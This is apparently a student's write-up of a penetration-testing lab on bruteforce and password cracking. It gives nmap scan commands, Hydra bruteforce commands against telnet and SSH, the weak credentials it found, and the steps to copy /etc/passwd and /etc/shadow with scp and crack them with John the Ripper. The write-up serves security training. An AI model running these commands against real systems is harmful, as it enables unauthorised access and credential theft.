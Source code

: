 #Bruteforce and Password Cracking Lab - RCM 8/15/2021

#Description

The lab is divided in two main parts:

    Network authentication cracking

    Bruteforce and password cracking

In the first part of the lab you will have to use different network authentication cracking techniques and tools against services available on the target machine.

Once valid credentials have been found, it is time to download the passwords stored on the remote system and use John the Ripper to crack them!

#Goal

The final goal of the lab is retrieve the passwords of at least ten users on the target machine!

#Tools

The best tools for this lab are:

    Network authentication cracking tools such as Hydra

    Cracking tools such as John the Ripper

#Steps

1. Find alive hosts on the network. 
`nmap -sn 192.168.99.100/24`
Discovered two alive hosts on the network: 192.168.99.22,100 

2. Port scan and service detection
`sudo nmap -sS -sV -O 192.168.99.22,100 -oN servicenmap.txt`
UH OH TELNET'S OPEN.
192.168.99.22 is a Debian Linux machine
Port 22 SSH and Port 23 telnet are both open. 

3. Bruteforce service authentication (network authentication Hydra; cracker John)
Hydra to connect with the telnet service. Password list kind of weird.. will try SSH. 
`hydra -t 4 -V -f -L minimal.usr -P rockyou-10.txt telnet://192.168.99.22`
 - remove `minimal list of most common usernames` from minimal.usr first or hydra won't work.
 - this takes a while to run. 
Login Creds found: `[23][telnet] host: 192.168.99.22   login: sysadmin   password: secret`
Testing ssh connection as well.
`sudo hydra -t 8 -V -f -L minimal.usr -P rockyou-15.txt ssh://192.168.99.22`
ssh credentials `[22][ssh] host: 192.168.99.22   login: root   password: 123abc`
4. Download and crack the local password on the system 
   Download passwd and shadow files. 
   `scp root@192.168.99.22:/etc/passwd .`
   `scp root@192.168.99.22:/etc/shadow .`
   The files are located in kali attacker machine.
   Crack the files here:
   `unshadow passwd shadow > hashes.txt`
   Finally crack the password hashes using John.
   `john hashes.txt > cracked.txt`

    Cracked the hashes!
